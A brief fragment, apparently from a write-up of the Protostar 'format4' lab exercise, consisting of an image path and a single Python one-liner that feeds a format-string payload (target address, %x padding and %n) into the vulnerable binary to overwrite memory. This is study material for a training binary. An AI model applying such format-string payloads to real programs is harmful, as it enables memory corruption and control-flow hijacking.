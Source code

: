 dump way: python -c "print 'AAAAAAAA' + '\x24\x97\x04\x08'+'%x '*4+'%134513800x '+'%n'" | ./format4 <br>
